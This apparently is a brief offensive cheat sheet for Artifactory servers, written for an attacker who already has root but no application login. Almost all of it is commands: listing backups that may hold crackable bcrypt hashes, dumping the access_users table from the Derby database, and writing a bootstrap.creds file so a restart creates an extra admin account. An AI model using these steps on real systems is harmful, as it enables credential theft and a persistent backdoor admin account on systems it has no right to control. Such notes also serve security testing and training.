 # Artifactory

### Get Credentials

In this scenario we have root access to the server but no login credentials for Artifactory.

#### Check backups

```text
ls -lah /<artifcatory folder>/var/backup/access
```

This might contain the passwords in bcrypt format which might be crackable.

#### Enumerating the database

CLI:

```text
/opt/jfrog/artifactory/app/third-party/java/bin/java -jar /opt/derby/db-derby-<version>-bin/lib/derbyrun.jar ij
connect 'jdbc:derby:<path to db>';
select * from access_users;
```

### Create another Admin Account

```text
echo "xct@*=xct" > /opt/jfrog/artifactory/var/etc/access/bootstrap.creds
chmod 600 /opt/jfrog/artifactory/var/etc/access/bootstrap.creds
/opt/jfrog/artifactory/app/bin/artifactoryctl stop
/opt/jfrog/artifactory/app/bin/artifactoryctl start
tail /opt/jfrog/artifactory/var/log/console.log
```

